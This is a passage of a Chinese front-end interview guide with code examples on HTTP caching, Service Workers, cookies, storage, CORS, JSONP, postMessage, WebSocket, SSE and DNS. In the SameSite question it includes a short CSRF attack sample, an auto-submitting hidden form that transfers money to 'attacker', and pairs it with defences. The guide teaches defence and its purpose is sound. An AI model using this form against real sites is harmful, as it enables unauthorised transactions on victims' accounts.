    if (inm === etag || (inm === undefined && ims && new Date(ims).getTime() === Math.floor(stat.mtimeMs / 1000) * 1000)) {
      res.writeHead(304);
      return res.end();
    }
    res.writeHead(200, {
      ETag: etag,
      'Last-Modified': stat.mtime.toUTCString(),
      'Cache-Control': 'no-cache',
    });
    res.end(body);
  })
  .listen(3004);
```

### WEB-024：画出强缓存与协商缓存的完整判定流程。
**答**：
- 浏览器发起请求前先查本地缓存：有缓存且 `max-age` 未到期且非 `no-cache`，直接用（强缓存）。
- 缓存过期或 `no-cache`，带 `If-None-Match`/`If-Modified-Since` 发请求协商：服务器判定未变回 304，变了回 200 + 新资源 + 新校验头。
- `no-store` 直接绕过一切缓存；Service Worker 的 fetch 拦截发生在 HTTP 缓存之前，优先级最高。
- 面试要求能口述流程图并指出"304 省流量不省请求"这个关键差异。



### WEB-025：工程上如何设计一套可靠的缓存策略？
**答**：
- 入口 HTML：`Cache-Control: no-cache`，每次协商，保证发布后用户立刻拿到新版本入口。
- 带 contenthash 的 JS/CSS/图片：`max-age=31536000, immutable`，文件内容变则文件名变，天然失效。
- 接口数据：视业务而定，不可重复的请求加 `no-store`，可短缓存的用 `max-age=60, stale-while-revalidate=300` 提升体感。
- CDN 层要和浏览器层一致，注意给 HTML 关闭 CDN 缓存或用正确回源策略，避免"发版了页面还是旧的"。

```javascript
// Vite 构建产物自动带 contenthash，配合上面的服务端策略即可
// vite.config.js
export default {
  build: {
    rollupOptions: {
      output: {
        // 内容不变则 hash 不变，长期强缓存才安全
        entryFileNames: 'assets/[name].[hash].js',
        chunkFileNames: 'assets/[name].[hash].js',
        assetFileNames: 'assets/[name].[hash].[ext]',
      },
    },
  },
};

// 接口响应示例：内容短时不变，先给旧值后台刷新
// Cache-Control: max-age=60, stale-while-revalidate=300
```

### WEB-026：memory cache 和 disk cache 有什么区别？
**答**：
- memory cache 存在内存里，读取极快，但进程结束（关标签页/重启浏览器）就没了；一般存放当前会话频繁使用的资源、图片。
- disk cache 落盘，容量大、跨会话存在，读取有 IO 开销；大文件与不常用资源优先进磁盘。
- 浏览器自己决定放哪，前端无法指定；经验规律：刷新页面多命中 memory，重开页面命中 disk。
- 与之并列还有 Service Worker Cache（可编程、最优先）和 HTTP/2 推送缓存，面试能说清层级即可。

```bash
# 用 curl 验证响应头，判断资源会进哪种缓存
curl -sI https://cdn.example.com/app.js | grep -i cache-control

# DevTools 观察：Network 面板 Size 列
# memory cache  - 命中内存缓存
# disk cache    - 命中磁盘缓存
# 数字（如 15.3 kB）- 真实发生网络请求

# 强制绕过缓存的方法
curl -sI -H 'Cache-Control: no-cache' https://cdn.example.com/app.js
# 或 DevTools 勾选 Disable cache（仅打开 DevTools 期间生效）
```

### WEB-027：什么是启发式缓存？没有 Cache-Control 时浏览器怎么办？
**答**：
- 响应里既没有 `Expires` 也没有 `Cache-Control` 时，浏览器按启发式公式估算新鲜度：`(Date - Last-Modified) * 10%`。
- 例：资源 10 天前修改，浏览器可能缓存约 1 天，期间不发请求；过期后进入协商缓存。
- 风险：启发式完全猜服务器意图，更新频繁的资源可能被缓存过久导致"改了不生效"。
- 结论：所有资源显式声明 `Cache-Control`，不要裸奔依赖启发式。

```bash
# 观察一个没有 Cache-Control 的响应
curl -sI https://example.com/ | grep -Ei 'date|last-modified|expires|cache-control'
# 假设输出 Date: Fri, 01 Nov 2026 03:00:00 GMT
#        Last-Modified: Tue, 20 Oct 2026 03:00:00 GMT
# 启发式新鲜度 = (12 天) * 0.1 ≈ 1.2 天，浏览器在这期间直接用本地缓存
```

### WEB-028：如何用 Service Worker + Cache Storage 实现可编程缓存？
**答**：
- Service Worker 是运行在页面之外的脚本，能拦截同源页面发出的所有请求，缓存策略由代码决定。
- 常见策略：Cache First 适合静态资源与字体；Network First 适合接口数据；Stale-While-Revalidate 先给旧值再后台更新。
- 缓存有版本化与清理问题：新版本 SW 安装后要删除旧缓存，否则体积无限膨胀。
- SW 只能拦截 HTTPS（localhost 除外）页面下的请求，作用域由脚本路径决定。

```javascript
// sw.js：三种策略并存的可编程缓存
const CACHE_V = 'app-cache-v2';
const PRECACHE = ['/index.html', '/static/app.js', '/static/app.css'];

self.addEventListener('install', (event) => {
  event.waitUntil(caches.open(CACHE_V).then((c) => c.addAll(PRECACHE)));
});

self.addEventListener('activate', (event) => {
  event.waitUntil(
    caches.keys().then((keys) =>
      Promise.all(keys.filter((k) => k !== CACHE_V).map((k) => caches.delete(k)))
    )
  );
});

self.addEventListener('fetch', (event) => {
  const url = new URL(event.request.url);

  if (url.pathname.startsWith('/api/')) {
    // 接口：Network First，断网时兜底旧数据
    event.respondWith(
      fetch(event.request)
        .then((res) => {
          const copy = res.clone();
          caches.open(CACHE_V).then((c) => c.put(event.request, copy));
          return res;
        })
        .catch(() => caches.match(event.request))
    );
  } else {
    // 静态资源：Cache First，未命中才走网络
    event.respondWith(
      caches.match(event.request).then(
        (cached) =>
          cached ||
          fetch(event.request).then((res) => {
            const copy = res.clone();
            caches.open(CACHE_V).then((c) => c.put(event.request, copy));
            return res;
          })
      )
    );
  }
});
```

```javascript
// 页面侧注册 Service Worker
if ('serviceWorker' in navigator) {
  window.addEventListener('load', () => {
    navigator.serviceWorker.register('/sw.js', { scope: '/' }).then((reg) => {
      console.log('SW registered, scope:', reg.scope);
    });
  });
}
```

## 五、Cookie 与 Web Storage

### WEB-029：Cookie 有哪些关键属性？各自的安全作用？
**答**：
- `Domain`/`Path` 控制作用域：Cookie 会随同域及父域请求自动携带，主域相同子域共享 Cookie。
- `Expires`/`Max-Age` 控制生命周期，不设置则是会话 Cookie，关浏览器即失效。
- `HttpOnly` 禁止 JS 读取，防 XSS 偷取；`Secure` 只在 HTTPS 发送。
- `SameSite` 控制跨站携带，Lax 默认防大部分 CSRF；`Max-Age` 单位是秒。

```http
# 服务端下发的 Set-Cookie 完整示例
Set-Cookie: session_id=abc123; Domain=.example.com; Path=/; Max-Age=86400; HttpOnly; Secure; SameSite=Lax
```

```javascript
// JS 只能读写未加 HttpOnly 的 Cookie；工具函数务必 encodeURIComponent 防特殊字符
function setCookie(name, value, { maxAge = 3600, path = '/' } = {}) {
  document.cookie = `${encodeURIComponent(name)}=${encodeURIComponent(value)}; max-age=${maxAge}; path=${path}; SameSite=Lax`;
}
function getCookie(name) {
  const pair = document.cookie
    .split('; ')
    .find((row) => row.startsWith(encodeURIComponent(name) + '='));
  return pair ? decodeURIComponent(pair.split('=')[1]) : null;
}
setCookie('theme', 'dark');
console.log(getCookie('theme')); // dark；session_id 若是 HttpOnly，这里拿到 null
```

### WEB-030：SameSite 有哪几个值？如何影响 CSRF 防御？
**答**：
- `SameSite=Strict`：完全禁止跨站携带，最安全但从外站点链接进来会丢登录态。
- `SameSite=Lax`：允许顶级导航的 GET 请求携带（点链接进来保持登录），禁止表单 POST、img/iframe 等携带；是现代浏览器默认值。
- `SameSite=None`：不做限制，但必须配合 `Secure`，用于需要跨站携带的场景（如第三方支付嵌入）。
- CSRF 的攻击本质是借受害者浏览器自动携带的 Cookie 发请求，SameSite=Lax 已挡住绝大多数；配合 CSRF Token 和校验 Origin/Referer 双保险。

```html
<!-- 攻击原理示意：恶意站点诱导已登录用户打开此页，
     img 标签的 GET 和 form 的 POST 会自动携带目标站 Cookie -->
<form method="POST" action="https://bank.example.com/transfer">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>document.forms[0].submit();</script>
<!-- 防御一：目标站 Cookie 设置 SameSite=Lax，这个跨站 POST 不再携带 Cookie -->
<!-- 防御二：CSRF Token，攻击者拿不到 -->
```

```javascript
// 防御二实现：服务端渲染时注入一次性 CSRF Token，请求头校验
const csrfToken = 'random-per-session-token';

// 前端：从 meta 里取 token，放进自定义请求头
const token = document.querySelector('meta[name="csrf-token"]').content;
fetch('/api/transfer', {
  method: 'POST',
  headers: { 'X-CSRF-Token': token, 'Content-Type': 'application/json' },
  body: JSON.stringify({ to: 'friend', amount: 100 }),
});

// 服务端（Express 中间件）：校验请求头与 Session 中 Token 一致
app.use((req, res, next) => {
  if (req.method === 'POST' && req.headers['x-csrf-token'] !== req.session.csrfToken) {
    return res.status(403).json({ error: 'csrf token invalid' });
  }
  next();
});
```

### WEB-031：localStorage 和 sessionStorage 有什么区别？
**答**：
- 生命周期：localStorage 持久化，手动清除才消失；sessionStorage 属于会话级，标签页关闭即清空。
- 作用域：localStorage 同源共享（所有标签页）；sessionStorage 每个标签页独立，新标签页打开同链接也不继承（复制标签页除外）。
- 容量约 5MB，均为字符串 KV 存储，对象要 `JSON.stringify` 序列化，且写入是同步的，大对象会阻塞主线程。
- 均可被同源 JS 读取，敏感信息（token 以外）不建议明文放，XSS 可直接拿走。

```javascript
// localStorage / sessionStorage 的典型用法与差异验证
const user = { id: 42, name: 'Wang' };

localStorage.setItem('user', JSON.stringify(user)); // 必须手动序列化
const cached = JSON.parse(localStorage.getItem('user') || 'null');
console.log(cached.name); // Wang

sessionStorage.setItem('draft', '未提交的表单内容'); // 标签页级，防误关丢稿
localStorage.setItem('theme', 'dark');

// 监听同源其他标签页的写入（跨标签页通信的经典用法）
window.addEventListener('storage', (e) => {
  // 本标签页自己 setItem 不触发，只有其他标签页修改才触发
  console.log(`key=${e.key} oldValue=${e.oldValue} newValue=${e.newValue}`);
  if (e.key === 'logout') location.href = '/login';
});

localStorage.removeItem('user');
localStorage.clear(); // 清空全部
```

### WEB-032：Cookie、localStorage、sessionStorage、IndexedDB 如何选型？
**答**：
- Cookie：需要随请求自动发给服务器的身份信息（session id、追踪），体积 4KB，每次请求都带上要注意膨胀。
- localStorage：同源持久化的小型配置与状态（主题、语言、UI 偏好）。
- sessionStorage：会话期临时数据（表单草稿、一次性流程状态）。
- IndexedDB：大容量结构化数据（离线缓存、消息记录、媒体文件），异步事务型，容量可达数百 MB 以上。
- 安全红线：XSS 能读 localStorage，凭证类要么 HttpOnly Cookie，要么配合严格的 XSS 防护。

```javascript
// IndexedDB 基本用法：异步打开、建索引、增查
function openDB() {
  return new Promise((resolve, reject) => {
    const req = indexedDB.open('chat-db', 1);
    req.onupgradeneeded = () => {
      const db = req.result;
      if (!db.objectStoreNames.contains('messages')) {
        const store = db.createObjectStore('messages', { keyPath: 'id', autoIncrement: true });
        store.createIndex('by_chat', 'chatId'); // 按 chatId 建索引
      }
    };
    req.onsuccess = () => resolve(req.result);
    req.onerror = () => reject(req.error);
  });
}

const db = await openDB();

// 写入（事务）
function addMessage(msg) {
  return new Promise((resolve, reject) => {
    const tx = db.transaction('messages', 'readwrite');
    tx.objectStore('messages').add(msg);
    tx.oncomplete = resolve;
    tx.onerror = () => reject(tx.error);
  });
}
await addMessage({ chatId: 1, text: 'hello', time: Date.now() });

// 按索引查询
function messagesOf(chatId) {
  return new Promise((resolve) => {
    db.transaction('messages').objectStore('messages').index('by_chat').getAll(chatId).onsuccess = (e) =>
      resolve(e.target.result);
  });
}
console.log(await messagesOf(1));
```

### WEB-033：localStorage 能存对象吗？如何设计一个带过期时间的封装？
**答**：
- localStorage 只存字符串，对象需 JSON 序列化；读取时要 try/catch 防止脏数据导致解析异常。
- 原生没有过期机制，封装时在值里塞 `expires` 字段，读取时校验，过期即删除返回 null。
- 生产封装还应统一 namespace、容量异常（QuotaExceededError）兜底、SSR 环境判空。

```javascript
// 带过期时间与异常兜底的 storage 封装，贴近真实工程
const NS = 'app:';
const storage = {
  set(key, value, ttlMs) {
    const record = {
      value,
      expires: ttlMs ? Date.now() + ttlMs : null,
    };
    try {
      localStorage.setItem(NS + key, JSON.stringify(record));
    } catch (e) {
      // 存储已满：清理过期项后重试一次
      if (e.name === 'QuotaExceededError') {
        this.sweep();
        localStorage.setItem(NS + key, JSON.stringify(record));
      }
    }
  },
  get(key) {
    try {
      const raw = localStorage.getItem(NS + key);
      if (!raw) return null;
      const record = JSON.parse(raw);
      if (record.expires && Date.now() > record.expires) {
        localStorage.removeItem(NS + key);
        return null; // 已过期
      }
      return record.value;
    } catch {
      return null; // 脏数据兜底
    }
  },
  sweep() {
    Object.keys(localStorage)
      .filter((k) => k.startsWith(NS))
      .forEach((k) => {
        try {
          const r = JSON.parse(localStorage.getItem(k));
          if (r.expires && Date.now() > r.expires) localStorage.removeItem(k);
        } catch {
          /* ignore */
        }
      });
  },
};

storage.set('search-history', ['vue', 'http'], 24 * 60 * 60 * 1000); // 一天后自动失效
console.log(storage.get('search-history'));
```

## 六、同源策略与跨域

### WEB-034：什么是同源策略？它限制了什么、不限制什么？
**答**：
- 同源 = 协议 + 域名 + 端口三者完全一致；任一不同即为跨域。
- 限制：跨源的 XHR/fetch 响应读取、DOM 访问（如 iframe.contentDocument）、Cookie/Storage 读取（部分按站点界定）。
- 不限制：``/`<script>`/`<link>`/`<video>` 等资源加载标签（但拿不到像素/文本内容）、表单提交、CSS。
- 本质是浏览器保护用户数据不被恶意站点读取的安全机制；服务器之间的请求没有同源策略。

```javascript
// 同源判定：三个例子说明协议、域名、端口缺一不可
// 页面运行在 https://www.example.com:443
const current = 'https://www.example.com:443';

const urls = [
  'https://www.example.com:443/api/list',  // 同源：协议域名端口都相同
  'https://www.example.com:8443/api/list', // 跨源：端口不同
  'http://www.example.com:443/api/list',   // 跨源：协议不同
  'https://api.example.com:443/api/list',  // 跨源：域名不同（子域也算不同源）
];

function isSameOrigin(url) {
  const a = new URL(url, current);
  const b = new URL(current);
  return a.protocol === b.protocol && a.hostname === b.hostname && a.port === b.port;
}
urls.forEach((u) => console.log(u, isSameOrigin(u)));

// 跨源限制的直接体现：下面这行能发出请求，但 response 被 JS 拦截读取，报 CORS 错
fetch('https://other-origin.com/data');
```

### WEB-035：CORS 的简单请求和预检请求怎么区分？
**答**：
- 简单请求：方法为 GET/HEAD/POST，且 Content-Type 限于 text/plain、multipart/form-data、application/x-www-form-urlencoded，不带自定义头。
- 不满足以上条件即触发预检：浏览器先发 OPTIONS 请求询问服务器是否允许，通过后才发真实请求。
- 预检由浏览器自动完成，前端无感知；预检结果可被缓存（`Access-Control-Max-Age`），减少 OPTIONS 次数。
- 触发预检的常见原因：`Content-Type: application/json`、携带 `Authorization`、自定义业务头。

```javascript
// 简单请求：Content-Type 为表单编码，不触发预检
fetch('https://api.example.com/form', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'a=1&b=2', // 需要服务器返回 Access-Control-Allow-Origin
});

// 非简单请求：application/json + 自定义头，先发 OPTIONS 预检
fetch('https://api.example.com/data', {
  method: 'PUT',
  headers: {
    'Content-Type': 'application/json', // 触发预检的条件一
    'X-Request-Id': 'abc',              // 自定义头，触发预检的条件二
  },
  body: JSON.stringify({ ok: true }),
});
```

### WEB-036：服务端如何正确配置 CORS？
**答**：
- 必须回 `Access-Control-Allow-Origin`（不能是无凭据场景下随意用 `*` 与 credentials 混用）；带凭据时必须回具体源。
- 预检请求要在 OPTIONS 里返回 `Allow-Methods`、`Allow-Headers`，并处理 `Access-Control-Max-Age` 缓存预检结果。
- `Access-Control-Expose-Headers` 控制前端能读到哪些自定义响应头。
- 动态回显 Origin 且加白名单校验，比写死 `*` 安全；切忌"把请求头原样反射回来"却不校验。

```javascript
// Express 手写 CORS 中间件（也可用 cors 包，原理一致）
const whitelist = ['https://app.example.com', 'https://admin.example.com'];

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (whitelist.includes(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin); // 带凭据时必须回具体源
    res.setHeader('Access-Control-Allow-Credentials', 'true');
    res.setHeader('Vary', 'Origin'); // 缓存按 Origin 区分，防止 CDN 串源
  }
  if (req.method === 'OPTIONS') {
    res.setHeader('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE, OPTIONS');
    res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization, X-Request-Id');
    res.setHeader('Access-Control-Max-Age', '86400'); // 预检结果缓存一天，减少 OPTIONS
    return res.status(204).end();
  }
  next();
});
```

### WEB-037：CORS 如何携带 Cookie？踩过哪些坑？
**答**：
- 前端 `fetch` 要设 `credentials: 'include'`（axios 设 `withCredentials: true`），XHR 默认同源才带。
- 服务端必须同时满足三点：`Access-Control-Allow-Credentials: true`、`Allow-Origin` 为具体源（不能是 `*`）、`Allow-Headers` 不能是 `*`。
- Cookie 的 SameSite 也可能拦截：第三方站点接口要跨站携带时 Cookie 需 `SameSite=None; Secure`。
- 典型坑：后端配了 `*`，前端加了 include，浏览器报 "credential mode ... cannot use wildcard"。

```javascript
// 前端：跨源请求携带 Cookie 的正确写法
fetch('https://api.example.com/profile', {
  method: 'GET',
  credentials: 'include', // 关键：跨源也要带上目标域的 Cookie
})
  .then((r) => r.json())
  .then(console.log);

// axios 全局配置
// axios.defaults.withCredentials = true;
```

```javascript
// 服务端三件套缺一不可（否则浏览器拦截响应）
app.get('/profile', (req, res) => {
  res.setHeader('Access-Control-Allow-Origin', 'https://app.example.com'); // 1. 具体源
  res.setHeader('Access-Control-Allow-Credentials', 'true');               // 2. 允许凭据
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type');           // 3. 不能用 *
  res.json({ id: 1 });
});
```

### WEB-038：JSONP 的原理是什么？现在还用吗？
**答**：
- 利用 `<script src>` 加载不受同源策略限制：前端定义全局回调函数，请求带上 `?callback=fnName`，服务器返回 `fnName(数据)` 形式的 JS，脚本加载即执行回调。
- 只能发 GET，没有错误处理（加载失败只有全局 onerror），还要承担执行第三方 JS 的 XSS 风险。
- 只兼容老浏览器时代有意义，现代开发一律用 CORS；面试答原理 + 明确说已淘汰即可。
- 服务端对 callback 参数要做白名单校验，否则是反射型 XSS 注入点。

```html
<!-- 客户端：定义全局回调，动态插入 script -->
<div id="weather"></div>
<script>
  // 1. 预先定义全局回调函数
  window.handleWeather = function (data) {
    document.getElementById('weather').textContent = `${data.city} ${data.temp}度`;
  };

  // 2. 动态创建 script，callback 名随请求传给服务端
  const cb = 'handleWeather';
  const s = document.createElement('script');
  s.src = `https://api.other-origin.com/weather?city=beijing&callback=${cb}`;
  document.body.appendChild(s); // 加载完成即执行 handleWeather(data)
</script>
<!-- 服务端返回内容实际是：handleWeather({"city":"北京","temp":18}) -->
```

### WEB-039：postMessage 如何实现跨窗口通信？
**答**：
- `window.postMessage(msg, targetOrigin)` 可在 iframe、window.open 的窗口、Web Worker 之间安全传数据，不受同源限制。
- 接收方监听 `message` 事件，事件对象带 `data` 与 `origin`；必须校验 `origin` 再使用数据，否则任意页面都能注入。
- targetOrigin 写 `*` 表示不限制，生产环境要写明确源。
- 典型场景：第三方登录弹窗回传、嵌入的广告 iframe 与主站通信、编辑器与预览窗口同步。

```javascript
// 父页面：嵌入第三方 iframe 并接收其消息
const frame = document.createElement('iframe');
frame.src = 'https://editor.example.com/preview';
document.body.appendChild(frame);

window.addEventListener('message', (event) => {
  // 安全校验：只信任声明的源，防止任意页面伪造消息
  if (event.origin !== 'https://editor.example.com') return;
  if (event.data.type === 'height') frame.style.height = `${event.data.height}px`;
  if (event.data.type === 'content') console.log(event.data.html);
});

// 父页面向 iframe 发送指令（等 iframe 加载后）
frame.onload = () => {
  frame.contentWindow.postMessage(
    { type: 'set-theme', theme: 'dark' },
    'https://editor.example.com' // 目标源，不写 *
  );
};
```

```javascript
// iframe 内页面：响应主题并上报高度
window.addEventListener('message', (event) => {
  if (event.origin !== 'https://www.example.com') return;
  if (event.data.type === 'set-theme') document.body.dataset.theme = event.data.theme;
});

window.parent.postMessage(
  { type: 'height', height: document.documentElement.scrollHeight },
  'https://www.example.com'
);
```

### WEB-040：开发环境下跨域为什么通常用代理解决？
**答**：
- 同源策略只约束浏览器，服务器之间的请求不受限制；让同源的开发服务器转发请求到目标服务器，浏览器看到的就是同源响应。
- Vite/Webpack dev server 的 proxy 配置即此原理，无需目标服务器配合，也无需改后端。
- 生产环境常见做法是同域部署 + nginx 反向代理 /api 转发到后端，或网关统一配置 CORS。
- 注意代理只改"谁把响应交给浏览器"，真实请求头里的 Host、Origin 要用 `changeOrigin`/`headers` 处理。

```javascript
// vite.config.js：开发代理，浏览器请求 /api 视为同源
import { defineConfig } from 'vite';

export default defineConfig({
  server: {
    proxy: {
      '/api': {
        target: 'https://backend.example.com', // 真实后端
        changeOrigin: true, // 把 Host 改成 target，很多后端校验 Host
        rewrite: (path) => path.replace(/^\/api/, ''), // 去掉前缀再转发
      },
      '/socket': {
        target: 'wss://backend.example.com',
        ws: true, // WebSocket 也走代理
      },
    },
  },
});

// 前端代码里直接写相对路径，不存在跨域
fetch('/api/user/1');
```

## 七、WebSocket 与 SSE

### WEB-041：WebSocket 是如何建立连接的？和 HTTP 什么关系？
**答**：
- WebSocket 握手借道 HTTP：客户端发 Upgrade: websocket 的 GET 请求，带 Sec-WebSocket-Key；服务器回 101 Switching Protocols 和 Sec-WebSocket-Accept。
- 握手成功后协议切换，双方在同一条 TCP 连接上全双工通信，服务器可主动推送，无需轮询。
- 数据以帧为单位传输，开销远小于反复建 HTTP 请求；心跳（ping/pong）保活探测死连接。
- 注意混合内容限制：HTTPS 页面只能连 wss，ws 一般仅用于 http 本地调试；代理与网关需支持长连接与 Upgrade 头。

```javascript
// 服务端：ws 库实现握手后的全双工通信
const { WebSocketServer } = require('ws');
const wss = new WebSocketServer({ port: 8080 });

wss.on('connection', (ws, req) => {
  console.log('client connected:', req.headers['sec-websocket-key']); // 握手后的痕迹

  ws.send(JSON.stringify({ type: 'welcome', ts: Date.now() })); // 服务器主动推送

  ws.on('message', (raw) => {
    const msg = JSON.parse(raw);
    if (msg.type === 'ping') ws.send(JSON.stringify({ type: 'pong', ts: msg.ts })); // 应用层心跳应答
  });
});
```

```javascript
// 客户端：连接、收发、关闭
const socket = new WebSocket('wss://api.example.com/ws');

socket.addEventListener('open', () => {
  socket.send(JSON.stringify({ type: 'ping', ts: Date.now() }));
});
socket.addEventListener('message', (e) => {
  console.log('received:', JSON.parse(e.data));
});
socket.addEventListener('close', (e) => {
  console.log(`closed code=${e.code} reason=${e.reason}`); // 1000 正常关闭
});
socket.addEventListener('error', () => socket.close());
```

### WEB-042：如何给 WebSocket 封装心跳与断线重连？
**答**：
- 心跳：定时发 ping，超时未收到 pong 判定连接已死，主动 close 触发重连。
- 重连要指数退避 + 抖动，避免服务端恢复瞬间被重连风暴打死。
- 代码要处理"重复连接"、连接期间调用 send 的排队、页面卸载时主动断开等边界。
- 面试时说清"为什么要心跳"：TCP 半打开连接不会主动通知应用层，只能靠应用层探测。

```javascript
// 生产级 WebSocket 客户端封装：心跳 + 指数退避重连
class ReconnectingWS {
  constructor(url) {
    this.url = url;
    this.retry = 0;
    this.heartbeatInterval = 30000;
    this.connect();
  }
  connect() {
    if (this.socket) this.socket.close();
    this.socket = new WebSocket(this.url);

    this.socket.addEventListener('open', () => {
      this.retry = 0; // 重置退避
      this.startHeartbeat();
    });
    this.socket.addEventListener('message', (e) => {
      const msg = JSON.parse(e.data);
      if (msg.type === 'pong') this.gotPong = true;
      this.onMessage?.(msg);
    });
    this.socket.addEventListener('close', () => {
      this.stopHeartbeat();
      this.scheduleReconnect();
    });
    this.socket.addEventListener('error', () => this.socket.close());
  }
  startHeartbeat() {
    this.stopHeartbeat();
    this.heartbeatTimer = setInterval(() => {
      this.gotPong = false;
      this.send({ type: 'ping', ts: Date.now() });
      // 一个心跳周期内没收到 pong 视为死连接
      setTimeout(() => {
        if (!this.gotPong && this.socket.readyState === WebSocket.OPEN) {
          this.socket.close(); // close 事件会触发重连
        }
      }, 5000);
    }, this.heartbeatInterval);
  }
  stopHeartbeat() {
    clearInterval(this.heartbeatTimer);
  }
  scheduleReconnect() {
    const delay = Math.min(30000, 1000 * 2 ** this.retry) + Math.random() * 500; // 退避 + 抖动
    this.retry += 1;
    console.log(`reconnect in ${Math.round(delay)}ms, attempt=${this.retry}`);
    setTimeout(() => this.connect(), delay);
  }
  send(data) {
    if (this.socket.readyState === WebSocket.OPEN) {
      this.socket.send(JSON.stringify(data));
    }
  }
  destroy() {
    this.stopHeartbeat();
    this.socket.close(); // 页面卸载时主动断开，不再重连
    this.socket.onclose = null;
  }
}

const client = new ReconnectingWS('wss://api.example.com/ws');
client.onMessage = (msg) => console.log(msg);
```

### WEB-043：SSE 是什么？和 WebSocket 的核心区别？
**答**：
- SSE（Server-Sent Events）基于普通 HTTP 长连接，`Content-Type: text/event-stream`，服务器单向持续推送，浏览器用内置 EventSource 接收。
- 天然走 HTTP：自动重连（带 `Last-Event-ID` 续传）、代理友好、无需特殊网关配置；WebSocket 是独立协议，双向但重。
- 只能服务器到客户端单向推送；需要客户端上报的交互场景用 WebSocket 或 SSE+fetch 组合。
- 典型场景：AI 流式输出、行情推送、通知feed；连接数受浏览器同域 HTTP 连接限制（HTTP/1.1 下约 6 条）。

```javascript
// 服务端：Node 原生实现 SSE
const http = require('http');

http
  .createServer((req, res) => {
    if (req.url !== '/events') return res.end();
    res.writeHead(200, {
      'Content-Type': 'text/event-stream',
      'Cache-Control': 'no-cache',        // 禁止中间层缓存流
      Connection: 'keep-alive',
    });

    let id = 0;
    const timer = setInterval(() => {
      // 消息格式固定：id / event / data 字段，两条空行表示一条消息结束
      res.write(`id: ${++id}\n`);
      res.write(`event: tick\n`);
      res.write(`data: ${JSON.stringify({ now: Date.now() })}\n\n`);
    }, 1000);

    req.on('close', () => clearInterval(timer)); // 客户端断开要清理，防句柄泄漏
  })
  .listen(8090);
```

```javascript
// 客户端：EventSource 自动重连并携带 Last-Event-ID
const es = new EventSource('/events');

es.addEventListener('tick', (e) => {
  console.log('tick:', JSON.parse(e.data), 'lastId:', e.lastEventId);
});
es.onmessage = (e) => console.log('default event:', e.data);

// 断线后 EventSource 自动重连；需要自控时可 close 后手动重建
setTimeout(() => es.close(), 30000);
```

### WEB-044：什么时候选 WebSocket，什么时候选 SSE？
**答**：
- 双向高频交互（聊天、协作编辑、游戏、多人光标）选 WebSocket；仅服务器单向推送选 SSE。
- 考虑运维成本：SSE 就是 HTTP，nginx/网关/LB 无需特殊配置；WebSocket 要处理 Upgrade、空闲超时、代理缓冲。
- 兼容与基础设施：企业内网代理常掐断 WebSocket，SSE 存活率更高。
- 混合方案也常见：SSE 做下行推送，普通 POST 做上行指令，省掉 WebSocket 长连接成本。

```javascript
// 同一业务的两种实现选型对比
// 场景一：股票行情只读推送 —— SSE 足够，简单可靠
function watchQuotesSSE(symbols) {
  const es = new EventSource(`/quotes?symbols=${symbols.join(',')}`);
  es.addEventListener('quote', (e) => renderQuote(JSON.parse(e.data)));
  return () => es.close();
}

// 场景二：交易员需要订阅行情 + 下单 —— 双向，用 WebSocket
function tradingWS() {
  const ws = new WebSocket('wss://api.example.com/trading');
  ws.addEventListener('open', () => {
    ws.send(JSON.stringify({ type: 'subscribe', symbols: ['AAPL'] }));
  });
  ws.addEventListener('message', (e) => renderQuote(JSON.parse(e.data)));
  return {
    unsubscribe: () => ws.send(JSON.stringify({ type: 'unsubscribe', symbols: ['AAPL'] })),
    placeOrder: (order) => ws.send(JSON.stringify({ type: 'order', ...order })), // 双向上行
    close: () => ws.close(),
  };
}
```

## 八、DNS 与 CDN

### WEB-045：描述 DNS 解析的完整流程与各级缓存。
**答**：
- 顺序：浏览器 DNS 缓存 → 操作系统缓存（hosts 文件）→ 本地 DNS 服务器（递归查询）→ 根域名服务器 → 顶级域服务器（.com）→ 权威域名服务器，拿到 IP 后逐级返回并缓存。
- 查询方式：客户端到本地 DNS 是递归查询，本地 DNS 到各级域名服务器一般是迭代查询。
- 缓存时间由 TTL 控制，TTL 太短解析频繁、太长切换不灵活，发版前常提前调低 TTL。
- 前端优化手段：`dns-prefetch`、`preconnect`，以及 HTTPDNS 绕过运营商 DNS 劫持。

```bash
# 实测 DNS 解析链路
dig +trace www.example.com      # 展示从根到权威服务器的完整迭代过程
dig www.example.com +noall +answer   # 看最终结果与 TTL

nslookup www.example.com        # 备用工具
sudo dscacheutil -flushcache    # macOS 清空系统 DNS 缓存

# 查看 hosts 本地映射（优先级高于 DNS）
cat /etc/hosts
```

### WEB-046：CDN 是如何加速的？缓存命中与回源是怎么回事？
**答**：
